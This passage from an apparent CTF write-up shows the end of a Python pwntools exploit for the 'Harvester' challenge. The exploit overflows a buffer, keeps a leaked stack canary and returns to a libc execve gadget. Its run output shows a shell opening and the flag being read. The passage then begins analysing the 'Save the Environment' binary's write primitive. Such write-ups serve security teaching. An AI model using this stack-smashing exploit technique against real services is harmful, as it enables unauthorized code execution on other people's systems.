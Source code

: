 ```
execve_gadget = libc.address + 0x4f3d5          # execve() gadget offset

buf  = b"A"*40
buf += p64(int(canary, 16))                     # preserve stack canary
buf += p64(0x0)                                 # padding
buf += p64(execve_gadget)                       # return to execve() gadget
r.sendline(buf)

print("Getting shell...")
r.interactive()
```

Here it is in action popping a shell on the server:

```
► ./sploit.py SILENT=1
leaked stack canary: 0x32e62f8c8bdc5e00
leaked libc address: 0x7f7ea9cfbbf7
libc base: 0x7f7ea9cda000
Getting shell...

You try to find its weakness, but it seems invincible..
Looking around, you see something inside a bush.
[+] You found 1 \\x9f\xa5\xa7!

You also notice that if the Harvester eats too many pies, it falls asleep.
Do you want to feed it?
>
This did not work as planned..
$ ls
flag.txt  harvester  libc.so.6
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```

Save the Environment
--------------------

This binary challenge includes a copy of `libc.so.6` and is compiled with Full Relro, stack canary, and NX.

I did not complete this challenge during the CTFs allotted time frame, but completed it the day after. When executed, the binary prompts us for two options; plant a tree, or recycle. After analyzing the binary in Cutter, we can determine the following:

### Plant

The `plant()` function prompts the user for a type of tree to plant, and then a location to plant the tree. If this sounds familiar, it should, because the Minefield challenge used the same thing. This is essentially a write primitive that allows us to write to any writable memory address. The difference here is that the binary is compiled with Full RELRO so we can’t write to the GOT or `.fini_array`. We can only do this once. After `plant()` is called, the binary sets `rec_count` to 0x16. This causes the binary to exit when `check_fun()` is called and `rec_count` is greater than 0xb:
